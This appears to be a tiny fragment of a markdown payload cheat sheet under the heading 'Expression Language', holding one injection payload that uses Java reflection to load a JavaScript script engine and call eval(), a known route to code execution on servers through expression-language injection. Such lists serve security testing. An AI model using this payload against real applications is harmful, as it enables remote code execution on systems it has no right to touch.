 # Expression Language
- String.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('javascript').eval()
